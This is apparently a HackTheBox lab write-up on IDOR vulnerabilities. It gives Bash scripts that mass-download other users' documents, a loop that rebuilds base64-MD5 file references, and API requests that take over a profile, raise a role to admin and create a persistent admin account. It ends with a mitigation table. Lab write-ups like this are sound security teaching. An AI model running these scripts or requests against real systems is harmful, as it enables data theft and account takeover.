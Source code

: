 # Insecure-Direct-Object-References
Mass IDOR Enumeration, API exploitation, and privilege escalation.

By Ramyar Daneshgar 

This document presents a highly detailed technical analysis of **Insecure Direct Object Reference (IDOR) vulnerabilities** exploited within a HackTheBox web application. My methodology entailed **systematic mass enumeration**, **bypassing encoded object references**, and **escalating privileges via insecure API endpoints**. The approach leveraged **cybersecurity principles**, including **parameter fuzzing, access control bypass techniques, and API manipulation**, to achieve full compromise of the application.

---

## **1. Mass IDOR Enumeration**

### **Identification and Initial Assessment**
Upon initial reconnaissance, I identified a web endpoint that exposed user-specific document access through a **query parameterized HTTP GET request**:
```http
http://SERVER_IP:PORT/documents.php?uid=1
```
Observing the **direct object reference (uid=1)** within the URL suggested a potential IDOR vulnerability. I manually altered the **uid** value to test whether access control validation was being enforced at the backend:
```http
http://SERVER_IP:PORT/documents.php?uid=2
```
Upon executing the modified request, the application returned documents belonging to another user, confirming an **authorization bypass**.

### **Pattern Recognition and Forced Browsing Analysis**
Further investigation of the document structure revealed that filenames followed a consistent pattern:
```html
<li><a href='/documents/Invoice_2_08_2020.pdf'>Invoice</a></li>
<li><a href='/documents/Report_2_12_2020.pdf'>Report</a></li>
```
The **predictability of filenames** indicated susceptibility to a **forced browsing attack**, wherein systematically altering file names could lead to unauthorized file retrieval.

### **Automating Mass Enumeration**
To efficiently extract all accessible files, I constructed a **Bash-based enumeration script**:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..100}; do  # Iterate through user IDs
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
        wget -q $url/$link  # Download each document
    done
done
```
#### **Results:**
- Successfully retrieved documents from multiple unauthorized accounts.
- Confirmed **backend access control failure** due to improper enforcement of role-based validation.

---

## **2. Bypassing Encoded Object References**

### **Encoded Reference Discovery**
While examining API responses, I discovered that some files were referenced using **hashed identifiers** rather than sequential numerical values. A request to retrieve a contract file appeared as follows:
```http
POST /download.php
Content-Type: application/x-www-form-urlencoded

contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
This suggested an attempt at **Secure Direct Object Referencing (SDOR)**, intended to prevent IDOR exploitation by obscuring object references. However, the implementation relied on **MD5 hashing**, which is inherently predictable and reversible given knowledge of the input format.

### **Reverse Engineering the Hashing Mechanism**
Decompiling JavaScript within the web client revealed the hashing logic:
```js
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
I identified that the application processed identifiers as follows:
1. **Base64 encoding the UID** (`btoa(uid)`).
2. **Computing an MD5 hash** of the encoded value (`CryptoJS.MD5()`).

### **Hash Generation and Exploitation**
Utilizing this knowledge, I computed **valid object references** dynamically:
```bash
for i in {1..100}; do
    echo -n $i | base64 -w 0 | md5sum | tr -d ' -'
done
```
### **Automated Data Exfiltration**
With valid hashed identifiers generated, I deployed a **Bash-based mass retrieval exploit**:
```bash
#!/bin/bash

for i in {1..100}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
done
```
#### **Results:**
- Successfully retrieved all **restricted contract files**.
- Confirmed **weak encoding mechanisms** that provided no true security against enumeration attacks.

---

## **3. API Exploitation and Privilege Escalation**

### **Intercepting API Requests**
I monitored API traffic using **Burp Suite** and identified a **PUT request modifying user profiles**:
```http
PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb"
}
```
The critical observation was that **authorization control was dependent on a client-side cookie (`role=employee`)**, indicating a **severe security flaw**.

### **Privilege Escalation via API Manipulation**
#### ** Unauthorized User Modification**
I modified a request to **edit another user’s profile**:
```http
PUT /profile/api.php/profile/2
Content-Type: application/json
Cookie: role=employee

{
    "uid": 2,
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "full_name": "Compromised User",
    "email": "attacker@employees.htb"
}
```
 **Impact:** Enabled password reset takeover of the target account.

#### ** Escalating Privileges to Administrator**
```http
PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "role": "web_admin"
}
```
 **Effect:** Elevated my privileges to **administrator**.

#### **Creating a Persistent Admin Account**
```http
POST /profile/api.php/profile
Content-Type: application/json
Cookie: role=web_admin

{
    "uid": 100,
    "role": "web_admin",
    "full_name": "Persistent Attacker",
    "email": "attacker@employees.htb"
}
```
 **Effect:** Established an **admin foothold**, ensuring persistent access.

---

## **4. Mitigation Strategies**

| **Vulnerability** | **Recommended Mitigation** |
|-------------------|----------------------------|
| **Mass IDOR Enumeration** | Enforce **Role-Based Access Control (RBAC)** and **strict backend validation**. |
| **Bypassing Encoded References** | Replace **predictable hashes** with **cryptographically secure UUIDs**. |
| **Insecure API Authorization** | Implement **server-side access control validation**, eliminating reliance on **client-side roles**. |


